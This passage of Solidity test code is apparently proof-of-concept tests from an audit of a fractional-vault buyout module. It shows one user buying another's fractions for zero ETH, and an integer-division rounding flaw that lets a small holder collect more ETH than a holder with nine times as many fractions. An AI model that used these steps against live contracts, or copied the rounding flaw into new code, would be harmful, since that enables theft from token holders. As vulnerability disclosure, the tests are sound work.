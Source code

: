 ```solidity

        // Bob starts a buyout with 1 ether for the other half of total fractions
        bob.buyoutModule.start{value: 1 ether}(vault);

        eve.buyoutModule.buyFractions{value: 0}(vault, BOB_INITIAL_BALANCE);

        // Eve got all Bob's fractions for the very tempting price of 0
        assertEq(getFractionBalance(eve.addr), BOB_INITIAL_BALANCE);
    }


    ////////////////////////////////

    // a scenario where the price is 1, and the fraction price ends up being 
    // 50% of intended price.
    // The user who cashes his fractions after the sale gets the difference (0.9 ether in this case).
    function test_bugFractionPriceIsOne() public{
        uint totalSupply = 11e17;
        uint BOB_INITIAL_BALANCE = totalSupply / 10;
        initializeBuyout(alice, bob, totalSupply, BOB_INITIAL_BALANCE, true);

        uint aliceFractionBalance =  totalSupply * 9 / 10;
        uint256 buyoutPrice = 2 ether;
        uint256 fractionPrice = buyoutPrice / totalSupply;
        assertEq(fractionPrice, 1);

        // We need to approve the buyout even though Eve doesn't hold any fractions
        eve.ferc1155 = new FERC1155BS(address(0), 333, token);
        setApproval(eve, buyout, true);

        eve.buyoutModule.start{value: buyoutPrice}(vault);
        // alice selling all her fractions
        alice.buyoutModule.sellFractions(vault, aliceFractionBalance);

        // 4 days till buyout ends
        vm.warp(block.timestamp + 4.1 days);

        bob.buyoutModule.end(vault, burnProof);

        bob.buyoutModule.cash(vault, burnProof);

        // Alice revenue should be about 0.99 ether
        uint256 aliceExpectedETHRevenue = fractionPrice * aliceFractionBalance;
        // Bob revenue should be about 1.01 ether
        uint256 bobExpectedETHRevenue = buyoutPrice - aliceExpectedETHRevenue;

        // Bob earned more than Alice even though Alice had 9 times his fractions
        // This means Bob got ~9 times ETH per fraction than Alice
        assertTrue(bobExpectedETHRevenue > aliceExpectedETHRevenue);
        
        // Just make sure they have the expected balance
        assertEq(getETHBalance(alice.addr), aliceExpectedETHRevenue + INITIAL_BALANCE);
        assertEq(getETHBalance(bob.addr), bobExpectedETHRevenue + INITIAL_BALANCE);

    }
```
